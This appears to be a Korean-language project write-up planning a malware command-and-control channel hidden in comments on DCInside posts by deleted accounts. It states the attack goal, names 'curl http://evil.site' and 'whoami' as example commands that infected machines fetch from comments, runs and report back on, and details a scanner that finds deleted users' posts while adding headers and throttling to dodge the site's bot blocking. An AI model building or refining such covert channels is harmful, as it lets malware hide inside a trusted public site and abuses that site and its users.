 # 디시 인사이드를 활용한 LOTS(living off threat sites)

## 선정 이유

1. 다른 사이트 들과 달리 cloud flare가 없어 자동화에 유리하다.
2. 수 많은 개시물이 있고 그 중에 하나에 들어가 사용자가 탈퇴했는지 확인하는 것이 가능하다.
3. 탈퇴한 사람의 게시글에 댓글을 달게 되었을 때 몇년 전 게시글이라면 찾아볼 사람도 없을 것이라 예상한다.
4. 심지어 댓글을 남길 때에 이름을 선택하고 비밀번호를 선택할 수 있어 LOTS 명령어를 바이러스가 받은 후 개시물 삭제가 가능하고 크롤링에도 유리하다.

## 1차 목표

- [ ] 적합한 게시물 선정 _ 자동화

- [ ] LOTS 시나리오: 공격자가 `신뢰받는 사이트`인 DCInside의 댓글 기능을 악용하여, 외부에서 특정 메시지를 전달받고 악성 동작을 수행.

- [ ] 악성 동작을 수행한 후 결과를 다시 댓글로서 게시글에 올리게됨.

## 1차 예시 시나리오

1. 공격자는 디시인사이드 특정 글에 댓글로 명령어(`whoami`, `curl http://evil.site`)를 남김. 필요시 base64인코딩.
2. 봇은 주기적으로 이 글의 댓글을 확인.
3. 받은 명령어 부분을 실행 후 나온 결과물을 저장한 뒤 (디시인사이드에 접근하지 못하게 되었을 경우를 대비, 대신 매우 깊은 곳에 가능하다면 C 드라이브에 os_result 라는 이름의 파일로 생성할 예정) 같은 게시물 혹은 다른 게시물에 댓글을 달아 결과를 전송

### 1차 poc

- 일단 테스트를 할 때에 혹시 모를 상황에 대비하여 vpn을 사용 권장
- 필자는 proton vpn, tor, openvpn을 사용하여 테스트 해보았음

#### 게시물 선정

가능하다면 최대한 게시물이 많은 게시판을 선정.

![alt text](img/image.png)

그리고 여기서 가장 마지막 페이지로 가서 찾는다고 하면 혹시나 누군가 볼 수도 있을 것이라 생각하여 `가장 마지막 페이지 - (가장 마지막 페이지 / 6)` 정도의 위치에서 찾도록 하겠다.

그리고 그 중에서도 탈퇴한 회원의 게시물을 찾아야 한다.

#### 디시 인사이드 회원 탈퇴 로직 파악하기

하지만 사람이 직접 하나하나 찾아보기에는 솔직히 너무 게시물이 많기도 하고 우리는 코딩을 할 줄 아는 사람이며 디시 인사이드에는 로봇인지 확인하는 과정이 없기 때문에 자동화도 매우 쉽다.

코드의 이름은 `dc-lots-scanner.py`로 선정하였고 자동화를 한다고 하여도 일단 현재로써는 갤러리의 선정까지는 하드코딩 하는 것으로 선택했다.

그리고 사용자 확인할 때에 너무 요청이 많이 가서 `DDOS`로 오해받지 않기 위해 꼭 1, 2초의 처리 시간을 가지도록 하자. 이런 사소한 코드 하나가 큰 일이 될 수 있다.

![alt text](img/image-1.png)

이렇게 자동화 코드를 완성하였다.

... 코드를 만들고 보니 내가 에초에 디시 인사이드의 고정닉 유동닉에 대해 잘 모르는 것이 아닌가 하여 조사를 해보았다.

![alt text](img/image-2.png)

유동닉네임은 댓글 알람을 못받는다?

https://gall.dcinside.com/mgallery/board/view/?id=bravegirls0409&no=297410

흐음.. 누군가는 또 온다는 이야기도 있다.

https://gall.dcinside.com/mgallery/board/view/?id=speakers&no=130636

아 알림이 오기는 한가본데?

https://gall.dcinside.com/mgallery/board/view/?id=qmfzh&no=336534

알림이 오는게 거의 확실해 보인다.

그렇다면 우리의 타겟은 혹시모를 유동닉 유저가 아닌 **탈퇴한 고정닉** 유저를 타겟으로 잡자.

그리고 더 확실한 결과를 위해 다시 조사를 시작했다. (2025-07-26)

![alt text](img/image-5.png)

정확한 확인을 위해 시제로 고정닉 회원가입을 진행해보았다.

![alt text](img/image-6.png)

탈퇴를 위해 꼭 가지고 있어야겠다.

![alt text](img/image-7.png)

식별 코드와 보안 코드를 준다. 어쩌피 탈퇴할 계정이기에 이리 올려본다.

![alt text](img/image-8.png)

자 이제 직접 로그인해보자.

![alt text](img/image-9.png)

로그인에 성공했다. 뭔가 이메일 인증이라도 있을줄 알았는데 되게 쉽게 개인 인증도 없어서 뭔가 기분이 묘하다. 익명성에 중점을 둔 사이트라 그런걸까? 오히려 그래서 LOTS에 사용하기 좋기도 하다.

![alt text](img/image-10.png)

MY갤로그에 들어가보면 이렇게 사용자의 이름과 정보가 떠야한다. 그럼 이제 아무 갤러리에 들어가서 글을 쓰고 내 정보를 확인해보자.

https://gall.dcinside.com/mini/board/lists/?id=dogforawalk 이 갤러리는 아무도 사람이 없기에 이 갤러리에 테스트를 해보기로 하였다.

![alt text](img/image-11.png)

심지어 보아하니 갤러리 주인이 증발했다고 하는 듯 하다. 아 그런데 개시글을 달 때에 무조건 익명으로 달게 되어 여기는 테스트에 적합하지 않다.

그나마 들어본 모기 갤러리로 선택했다. https://gall.dcinside.com/mgallery/board/lists/?id=mosquito

![alt text](img/image-12.png)

이렇게 글을 올려보고 확인해보자.

![alt text](img/image-13.png)

탈퇴한 사람의 정보를 알기 위해서는 위 사진에서 글을 눌렀을 때에 https://gallog.dcinside.com/sunday2170/posting가 아니라 https://gallog.dcinside.com/_error/deleted로 이동된다면 탈퇴 된 사람일 가능성이 생겼다.

![alt text](img/image-14.png)

이 상태가 지금 탈퇴하지 않은 회원의 경우 html 결과이다.

![alt text](img/image-15.png)

그리고 이건 페이지의 html이 아닌 댓글을 작성 하였을 때 게시물에서의 html이다.

이제 한번 탈퇴를 진행하고 어떻게 변하는지 확인해보자.

![alt text](img/image-16.png)

이제 확실해진 것 하나는 탈퇴를 진행해도 게시물과 댓글은 삭제되지 않는다는 것이다.

![alt text](img/image-18.png)

현재 갤로그 상태

![alt text](img/image-17.png)

![alt text](img/image-19.png)

성공이다.

![alt text](img/image-20.png)

그리고 예상대로 삭제된 갤로그입니다 페이지로 리다이렉트 되는 것이 확인되었다.

가능하면 속도를 늘리기 위해 페이지(/?id=mosquito&page=2)에서 탈퇴한 사용자인지 확인할 수 있는지 html을 유심히 살펴보자.

![alt text](img/image-21.png)

이런.. 페이지에서는 탈퇴한 사용자인지에 관한 정보를 주지 않는다.

그렇다면 게시물 선정 로직에서 어쩔 수 없이 리다이렉트 되는 방식을 이용할 수 밖에 없겠다.

#### 디시 인사이드 회원 탈퇴 게시물 선정 구현하기

![alt text](img/image-22.png)

아 이런 설마설마 했는데 봇은 차단 당한다.

뭐 당연한 결과이려나? 아니면 코드상의 문제일 수도 있겠다.

![alt text](img/image-23.png)

세상에 아니였다!! 일단 처음 테스트한 코드의 문제는 User-Agent, Referer등이 없어 봇이라 판단하여 차단 당한 것이었고, 이번에 404가 뜬 것은 탈퇴한 회원이라서 캘로그가 삭제되어 404를 뱉었던 것이다! 일반 사용자 일 때에는 200 코드를 뱉는다는 사실을 확인했다.

![alt text](img/image-24.png)

이제 구현에 성공하여 실제 게시물들에 들어가 확인해보면 생각했던 것 처럼 탈퇴한 사용자임을 확인할 수 있었다.

속도를 늘려볼까 하는 마음에 동시 처리 속도 향상을 위해 각 스켄당 대기 시간을 1초-2초로 설정하고 15페이지씩 스캔할 수 있도록 하였더니, 바로 디시 인사이드에서 감지하여 밴을 먹게 되었다. 고로 5개씩 2-3초의 텀을 두고 스캔하여 서버에 부하를 줄이도록 하자.